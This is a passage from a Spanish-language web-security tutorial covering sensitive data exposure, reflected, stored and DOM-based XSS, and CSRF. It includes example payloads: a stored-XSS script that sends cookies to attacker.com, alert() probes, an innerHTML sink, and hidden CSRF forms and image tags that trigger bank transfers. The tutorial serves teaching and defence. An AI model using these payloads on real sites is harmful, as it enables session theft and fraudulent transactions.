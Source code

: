 #### 3. Sensitive Data Exposure (A03:2021)
Aplicaciones que no protegen adecuadamente datos sensibles como información financiera, sanitaria o personal.

**Mejores prácticas:**
- Cifrado en tránsito (HTTPS/TLS)
- Cifrado en reposo
- No almacenar datos innecesarios
- Usar algoritmos de cifrado actualizados

### Cross-Site Scripting (XSS)

#### Tipos de XSS

**1. Reflected XSS**
```html
<!-- URL maliciosa -->
http://vulnerable-site.com/search?q=<script>alert('XSS')</script>

<!-- Respuesta del servidor -->
<p>Resultados para: <script>alert('XSS')</script></p>
```

**2. Stored XSS**
```html
<!-- Comentario malicioso almacenado -->
<div class="comment">
  <script>
    // Robar cookies
    new Image().src = "http://attacker.com/steal.php?cookie=" + document.cookie;
  </script>
</div>
```

**3. DOM-based XSS**
```javascript
// Código vulnerable
var userInput = location.hash.substring(1);
document.getElementById('output').innerHTML = userInput;

// URL maliciosa
http://site.com/page.html#<img src=x onerror=alert('XSS')>
```

### Cross-Site Request Forgery (CSRF)

#### Cómo funciona CSRF
```html
<!-- Página maliciosa -->
<img src="http://bank.com/transfer?to=attacker&amount=1000" style="display:none">

<!-- O mediante formulario automático -->
<form action="http://bank.com/transfer" method="POST" id="csrf">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.getElementById('csrf').submit();</script>
```
